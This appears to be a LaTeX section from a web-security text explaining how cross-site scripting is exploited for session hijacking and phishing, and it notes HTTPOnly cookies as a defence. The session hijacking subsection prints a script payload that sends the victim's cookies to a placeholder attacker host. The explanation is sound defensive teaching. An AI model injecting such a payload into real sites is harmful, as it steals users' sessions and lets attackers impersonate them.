 
\subsection{Attacks using XSS}
Once the attacker finds a vulnerability has several ways to exploit it. Knowing the diverse ways a XSS can be used is useful to prevent it.

\subsubsection{Session hijacking attack}
The goal of this attack is to steal the session cookies to impersonate the user. A payload like this can send the cookies to a remote server controlled by the attacker passing the cookies as a parameter.

\verb|<script>document.InnerHTML += "<img src='http://attackersite.com/?cookie="+ document.cookie + "/'>" </script>|

This attack can be easily countered by setting the session cookies with the flag HTTPOnly, that we explained earlier in the cookies chapter.

\subsubsection{Phishing attack}
This attack overwrites the HTML of the website to trick the user into sending login credentials to the attacker. For example the payload can modify a form to submit the contents to a malicious server, or even modify the current page to make it look like the login page.

\subsubsection{Others}
JavaScript can interact with a lot of parts of the browser, and this makes XSS exploits very powerful. The attacker imagination is the limit but we can name a few more ways to exploit a XSS.

\begin{itemize}
	\item Redirect the victim to another URL.
	\item Modify the page with fake information.
	\item Recollect user information.
	\item Find browser version to send a targeted exploit.
\end{itemize}
